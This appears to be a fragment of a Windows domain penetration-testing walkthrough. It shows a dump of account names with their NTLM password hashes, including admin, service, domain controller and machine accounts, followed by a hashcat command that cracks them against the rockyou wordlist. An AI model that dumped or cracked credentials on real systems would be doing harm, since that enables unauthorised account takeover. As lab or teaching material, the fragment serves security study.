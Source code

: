 ```

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108) 
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : df17ce14150323494d483ddcf914431d

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a

```




### hashcat 跑字典
```
hashcat -m 1000 yourxxxhash rockyou.txt    
```
-m 1000代表 NTLM 加密 window 大多數採用

